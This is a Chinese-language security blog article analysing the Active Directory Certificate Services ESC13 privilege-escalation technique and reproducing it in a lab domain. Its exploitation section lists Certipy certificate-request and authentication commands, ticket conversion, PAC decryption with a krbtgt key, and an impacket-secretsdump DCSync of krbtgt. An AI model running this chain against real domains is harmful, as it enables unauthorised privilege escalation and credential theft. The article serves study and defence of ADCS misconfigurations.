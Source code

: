 

# 滥用 ADCS 进行权限提升——ESC13 详解 - 先知社区

滥用 ADCS 进行权限提升——ESC13 详解

- - -

## 0x1 起因：

​ 自 Will Schroeder（[@harmj0y](https://twitter.com/harmj0y)）和 Lee Christensen（[@tifkin\_](https://twitter.com/tifkin_)）在 2021 年的 BlackHat 大会上发布白皮书以来，ADCS 的攻击面首次系统化的进入人们的视野。[Certified Pre-Owned - Abusing Active Directory Certificate Services](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)这本白皮书可以说是为 ADCS 的利用奠定了各种理论基础。  
​ 随着 ADCS 的利用越加广泛，各种工具层出不穷，其中 Certipy 更是其中的佼佼者，近日在学习 Certipy 的相关代码实现的时候，偶然发现了这样一条 PR

[![](assets/1709090722-2d66abab704b03dd19f26a85f85ebe03.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708914927187-82296929-cb7d-40c9-9870-679ed15f5df5.png#averageHue=%2312171e&clientId=u45251239-0d4a-4&from=paste&height=393&id=uc7a279be&originHeight=589&originWidth=1853&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=79883&status=done&style=none&taskId=uf22aa9a9-573c-4abd-8216-4280825c7a3&title=&width=1235.3333333333333)  
众所周知（应该），在白皮书中一共介绍了 ESC1-ESC8 这 8 种 ESC 命名的攻击手法，后续又补充了[Oliver Lyak](https://medium.com/u/cd3a881c1abc?source=post_page-----fda4272fbd53--------------------------------)提出的[ESC9 和 ESC10](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)、 [Sylvain Heiniger](https://twitter.com/sploutchy)提出的中继到 RPC 的 [ESC11](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/)和利用条件比较局限的的[ESC12](https://pkiblog.knobloch.info/esc12-shell-access-to-adcs-ca-with-yubihsm)，针对这条 PR 附带的[博客文章](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)，我尝试对这个 ESC13 进行分析和复现。

## 0x2 分析：

​ 首先，先上结论：正如标题，这不是一个可以和 ESC1 或者 ESC8 一样可以直接获取域内权限的致命漏洞，它只能算是一个域内权限提升漏洞，提升的权限取决于你错误配置指向的组的权限，且它的限制颇多。  
​ 说的详细一点的话就是，我们可以使用指向给定 AD 组的 OID 组链接的颁发策略来配置证书模板。当我们用这个模板申请证书成功之后，我们利用该证书进行身份验证就可以获取这个组的权限，哪怕我们的用户不在这个组里。

这里面涉及到三个关键：

-   颁发策略
-   指向 AD 组的 OID 组链接
-   使用证书认证

我们对此进行逐步分析

### 证书颁发策略

证书颁发策略是指用于控制证书颁发的一组规则和条件。颁发策略定义了在何种情况下、以何种方式以及向谁颁发证书。  
我们可以打开一个证书模板查看其拓展，可以看到是包括了颁发策略这一部分的，而且当前模板默认是没有值  
[![](assets/1709090722-0991a8f51698a15327aac4c6c585d71a.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708918016197-6a505c5b-2cd3-43a5-8df3-75eeaa1086e7.png#averageHue=%23f8f7f6&clientId=u230a819b-e668-4&from=paste&height=385&id=u18b7d027&originHeight=577&originWidth=915&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=73074&status=done&style=none&taskId=uaa9ddf63-788c-48d2-8836-749b662b67b&title=&width=610)  
我们可以点击编辑添加颁发策略，也可以新建我们自己的颁发策略  
[![](assets/1709090722-38a31ed27d8507eb6ef3bd09cf5bcb2e.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708918078789-58e43ae4-20a1-4eec-a40b-2ccaa9c1c7da.png#averageHue=%23f2f2f1&clientId=u230a819b-e668-4&from=paste&height=323&id=ue8e1c19d&originHeight=484&originWidth=752&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=34866&status=done&style=none&taskId=ucc9890b9-3087-4752-8c27-2c9adeac44b&title=&width=501.3333333333333)  
证书的颁发策略同样是用 OID 进行标志的，它存储在 LDAP 中的 CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=esg-red,DC=local 中，每一个 CN 代表一个 OID 对象  
[![](assets/1709090722-49fb351f2fb7ba5e6b2d6e2aedf1a3d8.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708918442888-84c364a8-d563-42ac-84e4-8e5ffaca90e4.png#averageHue=%23f8f7f6&clientId=u230a819b-e668-4&from=paste&height=465&id=u66ac5de5&originHeight=697&originWidth=1240&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=97131&status=done&style=none&taskId=ub9f1220c-95fd-41ea-b478-d98d6a54b3e&title=&width=826.6666666666666)  
同样我们也可以通过 powershell 来查看

```plain
Get-ADObject -Filter * -SearchBase "CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=esg-red,DC=local" -Properties DisplayName,msPKI-Cert-Template-OID
```

[![](assets/1709090722-c084f4fc78008929577f57fb33d8aa9c.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708919300339-9f5a206b-b6ea-4900-a88f-8e35e408f4f7.png#averageHue=%23012456&clientId=u230a819b-e668-4&from=paste&height=553&id=u02de8495&originHeight=829&originWidth=1377&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=52356&status=done&style=none&taskId=u4841601f-7d15-4020-8aa6-b12711fd6ff&title=&width=918)  
注意，上面存储的 OID 是 ADCS 中所有的 OID，而证书模板具有的颁发策略的 OID 则存储在证书模板中的 msPKI-Certificate-Policy 属性中  
[![](assets/1709090722-7f438b309b2ab596b94d455f8bc02366.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708919336264-7ebd03a1-f56d-448c-9f27-8d9b598126c6.png#averageHue=%23f3f2f1&clientId=u230a819b-e668-4&from=paste&height=413&id=u41f2738e&originHeight=620&originWidth=1248&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=98683&status=done&style=none&taskId=u38f946fc-5a2c-4e07-a6c3-68728d5223f&title=&width=832)

### OID 组链接

对应 CN=OID 这个容器，我们可以看到它是一个`msPKI-Enterprise-Oid`类，而对于这个类，它存在一个继承 的`msDS-OIDToGroupLink`属性  
[![](assets/1709090722-84de9b1892aafb289c018e13437f4a1c.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708919491225-4d2d4819-10d8-47bc-a262-61e48acefbdf.png#averageHue=%23f0eeed&clientId=u230a819b-e668-4&from=paste&height=290&id=u5dd9b8b7&originHeight=435&originWidth=853&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=55336&status=done&style=none&taskId=u98c04447-7256-4952-823f-221391a5c14&title=&width=568.6666666666666)[![](assets/1709090722-d165c73c2d106f66d92316cf1088c68d.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708919746008-72eee16a-bdb6-458e-8425-83ef1852a64e.png#averageHue=%23f5f4f2&clientId=u230a819b-e668-4&from=paste&height=511&id=uafe70662&originHeight=766&originWidth=1362&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=136993&status=done&style=none&taskId=ubfbd46d1-8d5d-4793-b4fe-63a7b7524ab&title=&width=908)  
`msDS-OIDToGroupLink`这个属性便是 ESC13 的关键，它标识了与该 OID 表示的发布策略对应的组对象。换句话说，我们可以利用这个属性将我们的颁发策略和相应的 AD 组链接起来，如果用户利用带有相关颁发策略的证书进行身份验证，那么系统将认为该用户作为 AD 组的成员（即使用户不在该组中），并授予相应的权限。  
[![](assets/1709090722-2bbcffd5e68815397d2162c420056f1e.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708926380028-d7fc811f-edbf-431f-8465-5f682b28e6ff.png#averageHue=%23f9f8f6&clientId=u230a819b-e668-4&from=paste&height=508&id=ua9b6c4e3&originHeight=762&originWidth=1495&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=116127&status=done&style=none&taskId=u4b2539be-8d66-45c6-839a-9a5cbefead8&title=&width=996.6666666666666)  
但是并不是任何组都可以被颁发策略链接的，它需要满足以下要求

1.  必须是 AD 的通用组
2.  组内没有任何成员

当我们设置了`msDS-OIDToGroupLink`属性后，尝试向这个组内添加成员会报错  
[![](assets/1709090722-ec1ae0f46de9415914d9318d2985a7cb.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708926550502-f84963fc-be61-4d20-bff4-73621f708f5a.png#averageHue=%23f9f9f8&clientId=u230a819b-e668-4&from=paste&height=199&id=u52d5d50c&originHeight=298&originWidth=713&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=8675&status=done&style=none&taskId=ub7509b79-0fb6-4d98-baaf-d9521e7e2c8&title=&width=475.3333333333333)

### 证书认证：

前面说到，这是利用证书颁发策略的`msDS-OIDToGroupLink`属性导致的权限滥用，所以我们必须要使用证书进行身份验证才行，也就是说我们的证书模板要支持证书认证。  
我们可以验证一下，我们为 ESCUser13 用户申请具有漏洞的 ESC13 模板证书，我们利用 Rubeus 申请 TGT 票据，并利用 krbtgt 的密钥解密查看 PAC 部分  
[![](assets/1709090722-c3f507ed0cd3e290b24bff0ffb786dc3.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708927396119-5839c1ab-91e2-459f-a220-eb8b196a2044.png#averageHue=%23161616&clientId=u230a819b-e668-4&from=paste&height=446&id=u2fdade49&originHeight=669&originWidth=1722&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=64918&status=done&style=none&taskId=uc2e78c56-c46c-4eec-984b-b45ecb469ff&title=&width=1148)  
我们可以看到 ESC13User 除了默认的 513User 组外，没有加入任何其他组  
[![](assets/1709090722-4f8ed94952b070c3f689077ad1e65495.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708927501328-ed74ff2d-6af2-4021-bcdf-9a62b0c57cb7.png#averageHue=%230a2c5c&clientId=u230a819b-e668-4&from=paste&height=149&id=ud44fac20&originHeight=223&originWidth=643&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=7801&status=done&style=none&taskId=u84af355c-fc10-4ad4-9ecf-bddb882e95f&title=&width=428.6666666666667)  
但是在我们查看票据的 PAC 的时候，可以看到它拥有着 ESC13Group 这个组的权限  
[![](assets/1709090722-019a1e3f5e0365501cb809b0cde7dc9a.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708927428326-cccdbc5c-b312-4857-a0c0-06c57b6b09ac.png#averageHue=%23101010&clientId=u230a819b-e668-4&from=paste&height=545&id=u592a5e9e&originHeight=817&originWidth=1106&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=25041&status=done&style=none&taskId=u8426d23a-c5d9-4c04-be1e-e5a46b4c74d&title=&width=737.3333333333334)  
[![](assets/1709090722-4f0dfcd33acb2e0a96dc736c6f6f2d55.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708927549008-cb2c31c4-f35c-4700-9597-5e071f82d9aa.png#averageHue=%23f6f5f4&clientId=u230a819b-e668-4&from=paste&height=447&id=u95811611&originHeight=671&originWidth=1010&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=104050&status=done&style=none&taskId=ued2b311e-90a2-4b2e-b849-953c640204d&title=&width=673.3333333333334)  
而我们利用正常账号密码申请票据，发现只有一个 513User 组  
[![](assets/1709090722-cc8c64e83439aa17273a3cc359bb041d.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708927608876-3757adff-588b-4887-a435-91ef37bd7801.png#averageHue=%23151515&clientId=u230a819b-e668-4&from=paste&height=449&id=u727c9d63&originHeight=674&originWidth=1542&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=64381&status=done&style=none&taskId=u2f25f66e-fbb7-420b-b916-b2c6a899d3c&title=&width=1028)  
[![](assets/1709090722-ebaca1239d8e2b741e293dd3814839d3.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708927638298-2e4817d8-b3f2-4779-8963-950d48c86871.png#averageHue=%23101010&clientId=u230a819b-e668-4&from=paste&height=507&id=ua756cd20&originHeight=761&originWidth=1059&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=22607&status=done&style=none&taskId=u3135fc9b-52d2-433c-98cf-7c9ea2b9729&title=&width=706)

## 0x3 漏洞复现：

### 配置

搭建域控和 ADCS 的步骤这里不再赘述了  
域控：DC Windows server 2019 Datacenter 10.10.10.128  
ADCS：ADCS Windows server 2019 Datacenter 10.10.10.131  
域名：esg-red.local  
CA 名：esg-red-ADCS-CA  
首先我们新建一个普通用户，确保它没有加入任何其他组

```plain
Get-ADUser ESC13User -Properties MemberOf
```

[![](assets/1709090722-bd7fa2a88d39239d291085d4d8144d8f.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928161501-eb3f13d2-7784-4499-bcaa-12428718e751.png#averageHue=%230b2c5c&clientId=u230a819b-e668-4&from=paste&height=143&id=uc6cb32a2&originHeight=214&originWidth=633&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=6619&status=done&style=none&taskId=u1357ab96-d4ee-47d2-acc0-3bed9341782&title=&width=422)  
然后创建一个通用组，组内没有任何用户  
[![](assets/1709090722-f67690f25f4d5d52bfc2b5b3ffa6dcf4.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928218262-fc69a70a-e671-459d-a346-455b72159b46.png#averageHue=%23f2f0ee&clientId=u230a819b-e668-4&from=paste&height=424&id=u515d51f3&originHeight=636&originWidth=857&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=105988&status=done&style=none&taskId=udbe6c567-ca7a-47d9-962f-c3f6a0d867c&title=&width=571.3333333333334)  
[![](assets/1709090722-6f75e688ee7b83884de47f35b8fadc78.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928234061-d40b41da-a944-4d9e-896c-ba87b20a82f6.png#averageHue=%23efefee&clientId=u230a819b-e668-4&from=paste&height=273&id=u033e9812&originHeight=410&originWidth=540&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=21248&status=done&style=none&taskId=u34b208cf-3176-4030-b02f-039bd0353cd&title=&width=360)  
为了验证权限，我们为这个组设置对域内 DCSync 的权限  
[![](assets/1709090722-c7247cbc7aa4136b773396f0df61fcff.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708939042023-6d4bcd88-ace1-48eb-9858-adef0975f270.png#averageHue=%23f5f3f1&clientId=u54327113-d12a-4&from=paste&height=268&id=u6ea25eb4&originHeight=402&originWidth=444&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=28409&status=done&style=none&taskId=u225c02be-e7f1-43f3-8c57-5656257a9f6&title=&width=296)  
接着我们来到我们的 ADCS，在终端中输入`certsrv.msc`打开我们的证书颁发机构，在证书模板这里右键管理打开证书模板控制台，我们可以直接复制现有的模板来创建新的漏洞模板。我们右键工作组身份验证选择复制模板，修改模板名称，在拓展这里双击颁发策略，点击添加  
[![](assets/1709090722-5464d339e7e0ea91c4404b26717c4b38.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928861889-4606c86b-1bbd-42ba-97f6-b6cdfa20d6db.png#averageHue=%23f0f0ef&clientId=u230a819b-e668-4&from=paste&height=372&id=u61fdae3c&originHeight=558&originWidth=558&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=36528&status=done&style=none&taskId=uf2f33612-de83-43de-88aa-808eb49c4ab&title=&width=372)  
我们可以选择现有的颁发策略，也可以直接新建颁发策略，新建时填写名称就行了  
[![](assets/1709090722-60e5a6aad2f2f257f7c153972050ae82.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928921174-ee039622-f217-4b23-9e61-9fe16c88e59e.png#averageHue=%23f1efee&clientId=u230a819b-e668-4&from=paste&height=313&id=ua2093655&originHeight=470&originWidth=880&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=50738&status=done&style=none&taskId=ub0691b52-b435-49c1-983f-434f323bc31&title=&width=586.6666666666666)  
在填完完成之后，点击拓展里的颁发策略，下面会显示已有的策略  
[![](assets/1709090722-b06d1f0133f577f6e12dd504351bd193.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928983194-ff9ed238-b996-4d5a-b66e-daae66536fed.png#averageHue=%23fbfafa&clientId=u230a819b-e668-4&from=paste&height=235&id=u0a3e6489&originHeight=352&originWidth=442&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=12979&status=done&style=none&taskId=u8d624044-f5d6-4d06-b6b8-5f35ec9b5a2&title=&width=294.6666666666667)  
我们需要给予用户对证书的申请权限  
[![](assets/1709090722-eb00556d6bd2f359a817b1e836bd1b37.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708929289096-602c22a6-b7d1-41e5-a7a1-f4a79c6ea493.png#averageHue=%23f7f6f5&clientId=u230a819b-e668-4&from=paste&height=423&id=ub6ec8b3c&originHeight=634&originWidth=455&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=32160&status=done&style=none&taskId=ub5c96577-e789-4d3f-8ccd-84f11b93e92&title=&width=303.3333333333333)  
同时还有一个非常重要的一点，我们需要在使用者名称这里，将 DNS 名修改为用户主体名称 (UPN)，因为我们新建的用户是没有 dNSHostName 这个属性的，不更改的话会导致证书申请失败  
[![](assets/1709090722-9ca3b33a1b3114b90cd5b94af6084d57.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708929219915-390945d9-f0ad-43d1-807b-d1cb225d8d51.png#averageHue=%23ebeae9&clientId=u230a819b-e668-4&from=paste&height=355&id=u9c926504&originHeight=533&originWidth=439&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=31879&status=done&style=none&taskId=u0bb5d110-bcd2-47d1-860c-8c13d0945b3&title=&width=292.6666666666667)  
我们在终端中输入`adsiedit.msc`打开 ADSI 编辑器，然后连接 AD 的 Configuration  
[![](assets/1709090722-5641b402ac5e92df3a7fa5ac0717d388.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928392356-0b01c427-706e-4ea5-890d-87b54c77794e.png#averageHue=%23f9f8f8&clientId=u230a819b-e668-4&from=paste&height=463&id=uc2b17dfb&originHeight=694&originWidth=1129&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=45598&status=done&style=none&taskId=u62555f8a-69c7-403e-a189-166fbb4bd95&title=&width=752.6666666666666)  
找到我们的 OID 容器，在`CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=esg-red,DC=local`下，找到我们创建的颁发策略，修改其`msDS-OIDToGroupLink`属性为我们创建的通用组  
[![](assets/1709090722-42bb541e757ed639e3f34e19ae454cb6.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708928566245-84c4753e-707b-454d-a148-12ae106c2b82.png#averageHue=%23f4f2f0&clientId=u230a819b-e668-4&from=paste&height=427&id=u9520fa4e&originHeight=641&originWidth=955&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=90125&status=done&style=none&taskId=uf0202ba1-d05f-473a-83cd-770b28fc4d5&title=&width=636.6666666666666)

### 利用

我们找到支持 ESC13 的[分支](https://github.com/sploutchy/Certipy/tree/main)下载下来，进入主目录，利用 find 进行简单的信息收集  
可以看到，成功的扫描出了 ESC13 这个漏洞  
[![](assets/1709090722-d79bcec058551259c2513e50d89d5182.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708929665639-a7fc218a-4798-4c0a-abb5-04657d27a15d.png#averageHue=%232c2e38&clientId=u230a819b-e668-4&from=paste&height=444&id=ubdd963a8&originHeight=666&originWidth=1450&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=188814&status=done&style=none&taskId=u5ea93e5d-a11a-4ad6-a072-52b5b0d559e&title=&width=966.6666666666666)  
然后我们申请 pfx 证书

```plain
python entry.py req -u 'ESC13User@esg-red.local' -p 'Admin13' -template 'ESC13'  -target adcs.esg-red.local  -ca esg-red-ADCS-CA
```

[![](assets/1709090722-ef6e12396d89eb21cd56da6c02ce548c.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708929770957-314ef791-2c51-461f-9e3b-4e1f1b86225b.png#averageHue=%23292b35&clientId=u230a819b-e668-4&from=paste&height=191&id=ufd57e4a9&originHeight=286&originWidth=1644&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=74467&status=done&style=none&taskId=u8eaf06c3-9ea2-48ef-a91a-2d189d53275&title=&width=1096)  
我们利用申请的证书申请 kirbi 类型的票据并将其转化为 Linux 上使用的 ccache 类型

```plain
python entry.py auth -pfx esc13user.pfx -dc-ip 10.10.10.128 -kirbi
impacket-ticketConverter esc13user.kirbi esc13user.ccache
```

[![](assets/1709090722-27fe8596ba192bf350918f8f66e06b85.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708939385399-fb4b4920-46ff-4e79-bcb2-39c13f9a0ef4.png#averageHue=%232b2d37&clientId=u54327113-d12a-4&from=paste&height=311&id=ua1ef076f&originHeight=467&originWidth=1299&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=98957&status=done&style=none&taskId=ua27dd07b-2a42-430b-814c-cd16797552a&title=&width=866)  
我们利用 impacket 分支的[describeTicket.py](https://github.com/ThePorgs/impacket/blob/7a0ec36036b9b3339a7a72290f33c243a5e4f0b9/examples/describeTicket.py#L4)脚本解密查看，可以看到确实是存在 2616 这个组的权限

```plain
python aaa.py esc13user.ccache --aes 3c4f06f1b46e0d5d30fe428ce08921964cae205def01fcf3b643dacf40a27983
```

[![](assets/1709090722-5b168e39a58ad7c130f04fa7dedd499e.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708939562089-5c4c3e23-d5ee-4173-80e8-889526247687.png#averageHue=%232b2e37&clientId=u54327113-d12a-4&from=paste&height=311&id=u65aaacfe&originHeight=467&originWidth=853&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=88306&status=done&style=none&taskId=u340213bb-4ae4-448c-a60e-c5805a8181b&title=&width=568.6666666666666)  
导入票据

```plain
export KRB5CCNAME=esc13user.ccache
```

[![](assets/1709090722-8c6ff9046aa7ecfddc6fe7fadff6b3fd.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708939595985-de6e2e2e-db72-429a-b3fe-4741ac6638d6.png#averageHue=%232d2f39&clientId=u54327113-d12a-4&from=paste&height=211&id=u289cc822&originHeight=316&originWidth=948&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=56631&status=done&style=none&taskId=uda6421e1-922e-4735-8c80-ea6ef2050b2&title=&width=632)  
尝试 DCSync 攻击

```plain
impacket-secretsdump esg-red.local/ESC13User@DC.esg-red.local  -k -no-pass -just-dc-user 'krbtgt' -debug
```

[![](assets/1709090722-09a606c24fae509315c1008f997458a4.png)](https://cdn.nlark.com/yuque/0/2024/png/25946722/1708939699045-942d1018-3918-4f21-b05e-77f7aa54852c.png#averageHue=%232d2f39&clientId=u54327113-d12a-4&from=paste&height=496&id=u9d5969be&originHeight=744&originWidth=1469&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=226821&status=done&style=none&taskId=u2de54266-3298-45bc-bea7-be90de2aa25&title=&width=979.3333333333334)

## 0x4 总结：

感觉这个利用属于是”可遇而不可求“，感觉利用限制很多，而且获取的还不一定是高权限组的权限，不过我们可以配合其他漏洞，例如 ESC5 来修改 PKI 的 ACL 等。本篇文章只是暂时分析了一下成因及其简单利用，后续有其他利用姿势欢迎大佬补充，文章有什么错误也欢迎大佬斧正。

![](assets/1709090722-c1a690c3008373b105f447e452f0cfec.gif)滥用 ADCS 进行权限提升——ESC13 详解.pdf (2.004 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240226175734-76ca8aa0-d48d-1.pdf)
